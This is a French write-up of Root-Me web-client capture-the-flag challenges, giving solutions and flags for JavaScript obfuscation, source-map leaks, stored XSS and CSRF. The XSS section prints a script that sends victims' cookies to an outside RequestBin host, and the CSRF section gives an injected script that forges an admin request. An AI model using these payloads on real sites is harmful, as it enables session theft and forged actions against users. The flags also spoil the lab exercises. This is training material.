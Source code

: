# Web - Client
Apprenez à exploiter les failles des applications web pour impacter leurs utilisateurs ou contourner des mécanismes de sécurité côté client.

Cette série d’épreuves vous confronte à l’utilisation de langage de script/programmation côté client. Ce sont principalement des scripts à analyser et à comprendre, pour en trouver des vulnérabilités exploitables. Cela permet aussi de se familiariser avec ces langages, dont l’utilisation est très répandue sur Internet.

## Prérequis :
 - Maîtriser un langage de script "web côté client", par exemple JavaScript.
 - Maîtriser le fonctionnement d’un débogueur, par exemple Firebug / console JavaScript.

---

# 42 Challenges
## 1. HTML - boutons désactivés

Avec `curl` on obtient le flag :
```bash
curl -X POST "http://challenge01.root-me.org/web-client/ch25/" -F "auth-login=ark" -F "authbutton='Member access'"
```
```html
<div class='success'>Member access granted! The validation password is HTMLCantStopYou</div>
```
Flag : **HTMLCantStopYou**

## 2. JavaScript - Authentification

### Solution :
1. Clic droit > "Examiner l'élément".
2. Onglet "Débogueur" > sources "web-client/ch9".
3. Ouvrir `login.js` et repérer :
```js
if (pseudo=="4dm1n" && password=="sh.org")
```
Le flag est **sh.org**.

## 3. JavaScript - Source

Faire un `console.log(login)` pour obtenir :
```js
if (pass == "123456azerty") {
    alert("Mot de passe accepté...");
}
```
Le flag est **123456azerty**.

## 4. JavaScript - Authentification 2

Analyser le code source :
```js
var TheLists = ["GOD:HIDDEN"];
```
Le flag est **HIDDEN**.

## 5. JavaScript - Obfuscation 1

Regarder les sources :
```js
pass = '%63%70%61%73%62%69%65%6e%64%75%72%70%61%73%73%77%6f%72%64';
alert(unescape(pass));
```
Le flag est **cpasbiendurpassword**.

## 6. JavaScript - Obfuscation 2

Utiliser `unescape()` et `String.fromCharCode()` :
```js
console.log(String.fromCharCode(104,68,117,102,106,100,107,105,49,53,54));
```
Le flag est **hDufjdki156**.

## 7. JavaScript - Native code

Regarder le prompt :
```js
if(a=='toto123lol')
```
Le flag est **toto123lol**.

## 8. JavaScript - Webpack

En analysant les fichiers JS, on observe un commentaire à la fin qui nous donne l'URL du mapping du code source :
```js
//# sourceMappingURL=app.a92c5074dafac0cb6365...
```
---

on load ce fichier en se rendant a l’url suivante : http://challenge01.root-me.org/web-client/ch27/static/js/app.a92c5074dafac0cb6365.js.map
Ou bien en CLI avec wget

    wget 'http://challenge01.root-me.org/web-client/ch27/static/js/app.a92c5074dafac0cb6365.js.map'

On observe que le fichier a bien été téléchargé ce qui signifie que les sources map n’ont pas été désactivées lors de la mise en production.

À partir de là, il ne nous reste plus qu’à parser le .map avec source-map-parser. (https://github.com/unisil/source-map-parser)
```
python source-map-parser.py -f ~/Root-Me/Webpack/app.a92c5074dafac0cb6365.js.map -d ~/Root-Me/Webpack/  
```
On peut aussi simplement load le .map via son url :

    python source-map-parser.py -u 'http://challenge01.root-me.org/web-client/ch27/static/js/app.a92c5074dafac0cb6365.js.map' -d ~/Root-Me/Webpack/

Une fois que l’on a récupéré les sources, on va grep (rechercher) le mot ’flag’ dans les fichiers.

```    grep -Ri 'flag'
    components/YouWillNotFindThisRouteBecauseItIsHidden.vue:        
	// Here is your 	
	flag : BecauseSourceMapsAreGreatForDebuggingButNotForProduction
```
---
## 9. Javascript - Obfuscation 3

Tout d’abord il faut analyser le code source pour voir les fonctions JS disponible :
On observe un appel à la fonction dechiffre() avec en paramètre une chaine en ASCII et le tout est passé en paramètre à la fonction fromCharCode() :

    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

Lorsqu’on décode pas à pas la chaine ASCII cela donne :

\x35 = 5 en decimal
Donc \x35\x35\x2c = "55," et String.fromCharCode(55) ; = 7

En continuant sur cette logique on obtient la chaine suivante :
"55,56,54,79,115,69,114,116,107,49,50"

En calculant :

    String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50);

On obtient "786OsErtk12" qui est le password du challenge.

---
## 10. XSS - Stockée 1

Une solution alternative aux autres car ne nécessitant pas de créer un script de réception ni de créer un serveur.
Le cookie est récupéré directement dans l’url qu’on construit.

Il suffit d’aller sur le site RequestBin et de faire Create a RequestBin (gratuit).

On utilisera le lien de l’encadré pour l’attaque XSS. Le lien a la forme suivante : http://requestb.in/xxxxxxxx

Dans le formulaire du challenge on met n’importe quelle valeur pour le titre et pour le message le script suivant :
```
<script>document.write('<IMG SRC=\"http://requestb.in/xxxxxxxx?cookie='+document.cookie+'\">Hacked</IMG>');
</script>
```
On devrait voir apparaître notre requête sur l’url RequestBin qu’on a créé.
Puis après quelques minutes (messages lus par l’admin) on verra apparaître la requête faite par l’admin (penser à rafraîchir la page) :
http://requestb.in
GET /xxxxxxxx?cookie=(u'ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6',)

Le cookie pour validation est donc : `NkI9qe4cdLIO2P7MIsWS8ofD6`

## 14. CSRF - 0 protection

L’accès à la partie private du site nous est refusé car notre compte doit être validé par un administrateur. On va donc chercher à atteindre cette validation. Pour cela, on note que :

    La page pour contacter un administrateur est vulnérable aux attaques XSS
    La requête envoyée lors de la validation est une requête POST accompagnée des données username=tonpseudo et status=on (checkbox cochée)

Une solution est d’injecter dans le formulaire de contact un script. Ce script va forcer l’administrateur à envoyer une requête qui validera notre compte. La requête venant de l’administrateur, le serveur la considèrera comme légitime.
```
<script>
         var post_data = 'username=aaaa&status=on';
         var xmlhttp = new XMLHttpRequest();
         xmlhttp.open("POST", "http://challenge01.root-me.org/web-client/ch22/index.php?action=profile", true);
         xmlhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
         xmlhttp.send(post_data);
    </script>


Notre attaque CSRF est un succès !
Good job dude, flag is : Csrf_[...]3l1 !
```